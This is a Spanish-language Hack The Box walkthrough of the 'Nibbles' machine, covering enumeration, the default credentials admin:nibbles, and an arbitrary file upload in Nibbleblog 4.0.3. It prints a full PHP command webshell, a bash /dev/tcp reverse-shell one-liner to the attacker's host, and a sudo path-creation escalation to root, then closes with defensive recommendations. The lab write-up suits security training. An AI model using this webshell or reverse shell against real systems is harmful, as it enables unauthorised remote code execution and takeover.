# Nibbles — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** mrb3n  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Gobuster · Nibbleblog 4.0.3 · Credenciales por defecto · **Arbitrary File Upload** vía plugin *My image* · PHP webshell · Reverse shell · sudo NOPASSWD · Path Creation Privilege Escalation

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — Nibbleblog (`admin:nibbles`)](#3-acceso-inicial--nibbleblog-adminnibbles)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.X.X
```



Salida obtenida:

```text
64 bytes from 10.129.X.X: icmp_seq=1 ttl=63 time=32.2 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP, suficiente para confirmar que el host está activo. El valor `TTL=63` es revelador: los sistemas Linux inician el TTL en 64, por lo que un valor cercano (63 tras un salto de red) indica que estamos frente a una máquina **Linux**.

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.X.X -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
22/tcp open  ssh
80/tcp open  http
```

> 💡 La combinación mínima `SSH + HTTP` es típica de un servidor Linux con una aplicación web. Sin credenciales, SSH no es atacable directamente; el vector lógico es **enumerar la web** y buscar un punto de apoyo que nos lleve a un usuario válido.

---

### Enumeración detallada

Una vez identificados los puertos abiertos, lanzamos un escaneo más profundo con detección de versiones y scripts NSE únicamente sobre ellos.

```bash
nmap -sCV -T5 -p22,80 10.129.X.X -oN Targeted
```



Salida relevante:

```text
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

> 💡 La huella de servicios es inequívocamente **Ubuntu 16.04**: `OpenSSH 7.2p2` y `Apache 2.4.18` son las versiones empaquetadas en esa distribución. Nmap advierte además que la página principal *"doesn't have a title"*, lo que sugiere un contenido mínimo (probablemente una redirección o un placeholder) que conviene inspeccionar a fondo.

---

## 2. Enumeración del servicio web

Accedemos desde el navegador al puerto `80`.

```text
http://10.129.X.X
```

La página devuelve únicamente el texto **"Hello world!"**. Inspeccionando el HTML con las herramientas de desarrollo del navegador, encontramos un comentario revelador en el código fuente.



```html
<body>
  <b>Hello world!</b>
  <!--/nibbleblog/ directory. Nothing interesting here!-->
</body>
```

El comentario revela la existencia de un directorio `/nibbleblog/` —presumiblemente "no interesante" según el propio comentario, lo cual es la mejor indicación de que **sí lo es**—.

> 💡 Los comentarios HTML son una fuente clásica de fugas de información. Cualquier mensaje del tipo *"nada interesante aquí"* debe interpretarse como una invitación a investigar exactamente eso. Las herramientas de desarrollo del navegador (`F12`) o `curl http://host/` son el primer paso obligatorio ante cualquier página aparentemente vacía.

---

### Acceso a /nibbleblog/

Navegamos a la ruta descubierta:

```text
http://10.129.X.X/nibbleblog/
```



Se carga un blog titulado **"Nibbles · Yum yum"** servido por **Nibbleblog**, un CMS ligero escrito en PHP que almacena su contenido en ficheros XML en lugar de base de datos.

En el pie de página puede verse el indicador `Powered by Nibbleblog`, y la categoría "HELLO WORLD" en la barra lateral coincide con el mensaje de la raíz, confirmando que el blog está activo.

---

### Fuzzing de directorios con Gobuster

Para mapear la estructura del CMS, lanzamos `gobuster` contra el directorio `/nibbleblog/`.

```bash
gobuster dir -u http://10.129.X.X/nibbleblog -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x .php
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `dir` | Modo de descubrimiento de directorios |
| `-u` | URL objetivo |
| `-w` | Diccionario de palabras |
| `-x .php` | Añade extensiones a probar |

Resultado relevante:

```text
/index.php     (Status: 200)
/sitemap.php   (Status: 200)
/content       (Status: 301)
/themes        (Status: 301)
/feed.php      (Status: 200)
/admin.php     (Status: 200)
/admin         (Status: 301)
/plugins       (Status: 301)
```

Aparece un directorio **`/admin`** y un fichero **`/admin.php`** que es claramente el panel de administración del CMS.

---

### Inspección del directorio /admin

```text
http://10.129.X.X/nibbleblog/admin/
```



El servidor expone un listado de directorios (*directory listing*) con la estructura interna del panel: `ajax/`, `boot/`, `controllers/`, `kernel/`, `templates/`, etc. La fecha `2017-12-10` —el commit original de la máquina— delata que estamos ante una versión antigua.

> 💡 El *directory listing* es, por sí mismo, una mala configuración del servidor web. En Apache se desactiva con la directiva `Options -Indexes`. Aunque no es vulnerabilidad directa, expone la estructura interna y facilita la enumeración posterior.

---

### Panel de login de Nibbleblog

Accedemos al panel propiamente dicho:

```text
http://10.129.X.X/nibbleblog/admin.php
```



Aparece el formulario *"Sign in to Nibbleblog admin area"* solicitando `Username` y `Password`. No hay opción de registro ni link de recuperación: necesitamos credenciales válidas.

---

## 3. Acceso inicial — Nibbleblog (`admin:nibbles`)

Nibbleblog es un CMS conocido y ampliamente documentado en plataformas de CTF. Una búsqueda rápida en comunidades técnicas revela las **credenciales por defecto** —y por convención CTF— habituales en este software.



```text
Usuario: admin
Contraseña: nibbles
```

Probamos esta combinación en el formulario de login y obtenemos acceso al panel administrativo.

> 💡 La reutilización de credenciales **`admin:<nombre-del-producto>`** es un patrón sorprendentemente extendido en software autoalojado y, sobre todo, en máquinas de CTF. Siempre vale la pena probar la combinación `admin:<nombre-app>` antes de lanzar herramientas de fuerza bruta como `hydra`.

---

### Plugin "My image" — vector de subida de ficheros

Una vez autenticados, navegamos a la sección **Plugins**, donde se listan los módulos instalados del CMS.



Entre los plugins disponibles encontramos uno especialmente interesante: **My image** ("Show a picture"). Este plugin permite a un administrador subir una imagen al blog —pero, como veremos, **Nibbleblog 4.0.3 no valida correctamente el tipo de fichero subido**, lo que se conoce públicamente como vulnerabilidad de *Arbitrary File Upload* (referenciada también como CVE-2015-6967 en algunas fuentes).

Pulsamos **Configure** en *My image* y llegamos al formulario de subida.



El formulario expone un campo `Examinar...` que acepta cualquier fichero. La aplicación lo renombra a `image.php` (o similar) y lo coloca en `content/private/plugins/my_image/`, una ruta accesible desde la web.

> 💡 *Arbitrary File Upload* en aplicaciones PHP es una de las vulnerabilidades más críticas y comunes: si el servidor permite escribir un fichero `.php` en una ruta servida por el intérprete PHP, el atacante obtiene ejecución de código remota inmediata.

---

## 4. Obtención de shell

### Preparación del webshell PHP

Generamos un webshell sencillo basado en la plantilla `PHP cmd` de **revshells.com**: un formulario HTML que ejecuta cualquier comando recibido en el parámetro `cmd` mediante `system()`.



Guardamos el código como `test.php`:



```php
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
  <input type="TEXT" name="cmd" id="cmd" size="80">
  <input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
  if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
  }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

### Desglose del webshell

| Línea | Función |
|---|---|
| `<form method="GET">` | Formulario HTML que envía el comando por URL |
| `<input name="cmd">` | Campo de texto cuyo valor llega como `?cmd=...` |
| `if(isset($_GET['cmd']))` | Comprueba que se ha enviado un comando |
| `system($_GET['cmd'])` | Ejecuta el comando en el servidor y devuelve su salida |

---

### Subida del fichero al plugin "My image"

Desde el formulario *My image*, subimos `test.php` como si fuera una imagen y pulsamos **Save changes**. El plugin acepta el fichero sin validar el tipo MIME ni la extensión.

Verificamos que el fichero ha sido alojado en la ruta esperada:

```text
http://10.129.X.X/nibbleblog/content/private/plugins/my_image/
```



El listado de directorios confirma la presencia de **`image.php`** —Nibbleblog renombra el fichero subido—. La extensión `.php` activa el intérprete PHP de Apache: nuestro código se ejecuta como cualquier otro script del CMS.

---

### Ejecución de comandos vía webshell

Accedemos a la URL del webshell y lanzamos un primer comando para validar la ejecución:

```text
http://10.129.X.X/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami
```



Resultado:

```text
nibbler
```

El servidor responde con el usuario `nibbler`, el propietario del proceso Apache en esta máquina. Disponemos ya de **ejecución remota de código** en el contexto de un usuario del sistema.

> 💡 Aunque el webshell es funcional, opera sobre peticiones HTTP individuales, sin estado entre comandos. Necesitamos una **shell interactiva** —especialmente para mantener variables de entorno, ejecutar `sudo` o usar editores—. El siguiente paso es escalar de webshell a *reverse shell*.

---

### Establecimiento de la reverse shell

Preparamos en nuestra máquina atacante un listener con `netcat`:

```bash
nc -lvnp 444
```



### Explicación

| Parámetro | Función |
|---|---|
| `-l` | Modo escucha |
| `-v` | Verbose |
| `-n` | No resuelve DNS |
| `-p 444` | Puerto de escucha |

A continuación, desde el webshell, lanzamos la conexión inversa mediante un *one-liner* bash:

```bash
bash -c "/bin/bash -i >& /dev/tcp/10.10.X.X/444 0>&1"
```



### Desglose del payload

| Fragmento | Función |
|---|---|
| `bash -c "..."` | Ejecuta la cadena entre comillas como comando bash |
| `/bin/bash -i` | Lanza una shell interactiva |
| `>& /dev/tcp/IP/PORT` | Redirige `stdout` y `stderr` al socket TCP |
| `0>&1` | Asocia también `stdin` al mismo descriptor |

> 💡 El truco está en `/dev/tcp/IP/PORT`: bash trata esa pseudo-ruta como un socket TCP. Combinándola con las redirecciones `>&` y `0>&1` se obtiene una shell con sus tres flujos (`stdin`/`stdout`/`stderr`) conectados al listener remoto.

Inmediatamente, nuestro `nc` recibe la conexión:



```text
connect to [10.10.X.X] from (UNKNOWN) [10.129.X.X] 34604
bash: cannot set terminal process group (1361): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

✅ Disponemos de una shell interactiva como `nibbler` sobre la máquina víctima.

---

### Escalada de privilegios — sudo NOPASSWD y *Path Creation*

Ya dentro como `nibbler`, lo primero es comprobar qué privilegios `sudo` tiene asignado el usuario.

```bash
sudo -l
```



Salida relevante:

```text
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

El usuario `nibbler` puede ejecutar el script `/home/nibbler/personal/stuff/monitor.sh` **como root y sin contraseña**. Inspeccionamos el script:

```bash
cat /home/nibbler/personal/stuff/monitor.sh
```



```text
cat: /home/nibbler/personal/stuff/monitor.sh: No such file or directory
```

**El fichero no existe.** La entrada en `sudoers` apunta a una ruta huérfana. Sin embargo, esa ruta vive dentro de `/home/nibbler/`, un directorio sobre el que `nibbler` tiene **control total** de escritura. La conclusión es inmediata: podemos **crear nosotros mismos** ese fichero —y el path completo si hace falta— con el contenido que queramos.

> 💡 Esta clase de escalada se denomina ***Path Creation Privilege Escalation***: cuando una entrada de `sudoers` referencia una ruta inexistente pero ubicada en un directorio escribible por el usuario, cualquier script depositado ahí se ejecuta con los privilegios concedidos. Es uno de los errores de configuración más graves —y, lamentablemente, más habituales— en sudoers personalizados.

Listamos el directorio home para ver el punto de partida:

```bash
ls -la
```



Reconstruimos la jerarquía esperada por `sudoers`:

```bash
mkdir personal
cd personal
mkdir stuff
cd stuff
```



Preparamos en nuestra máquina atacante un `monitor.sh` mínimo que simplemente abra una shell interactiva como `root`:

```bash
cat monitor.sh
```



```bash
#!/bin/bash
bash -i
```

Servimos el fichero por HTTP desde la máquina atacante:

```bash
python3 -m http.server 8080
```

Y desde la víctima descargamos el script al path objetivo:

```bash
wget http://10.10.X.X:8080/monitor.sh
```



Verificamos el contenido y le damos permisos de ejecución:

```bash
cat monitor.sh
chmod +x monitor.sh
```



Por último, lo ejecutamos a través de `sudo`:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
whoami
```



Resultado:

```text
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

✅ Compromiso total de la máquina.

---

## 5. Post-explotación y flags

Con privilegios de `root`, solo queda localizar las flags del sistema.

### Flag de usuario

La flag de usuario reside en el `home` de `nibbler`, accesible desde la primera shell que obtuvimos:

```bash
cat /home/nibbler/user.txt
```

### Flag de root

La flag de administrador se encuentra en el directorio personal de `root`:

```bash
cat /root/root.txt
```

✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina demuestra una cadena de fallos extremadamente común en aplicaciones PHP autoalojadas y en configuraciones de `sudo` mal pensadas.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Información sensible en comentarios HTML | Página inicial | Descubrimiento de la ruta `/nibbleblog/` |
| *Directory listing* habilitado | `/nibbleblog/admin/`, `/nibbleblog/content/...` | Exposición de la estructura interna |
| Credenciales por defecto (`admin:nibbles`) | Panel Nibbleblog | Acceso administrativo no autorizado |
| *Arbitrary File Upload* en Nibbleblog 4.0.3 | Plugin *My image* | Ejecución remota de código como `www-data`/`nibbler` |
| `sudo NOPASSWD` sobre ruta inexistente | `/home/nibbler/personal/stuff/monitor.sh` | Escalada inmediata a `root` mediante *path creation* |

---

## Recomendaciones defensivas

- Eliminar cualquier comentario sensible del HTML antes de publicar la aplicación.
- Deshabilitar el listado de directorios en Apache (`Options -Indexes`).
- Cambiar las credenciales por defecto de todo CMS o panel administrativo inmediatamente tras la instalación.
- Mantener Nibbleblog actualizado (versión ≥ 4.0.5) o migrar a un CMS con soporte activo.
- Validar estrictamente la extensión, el tipo MIME y, sobre todo, el contenido real de cualquier fichero subido por usuarios.
- Servir los directorios de subida desde una ubicación **fuera del intérprete PHP**, o configurar Apache para denegar la ejecución de PHP en esas rutas.
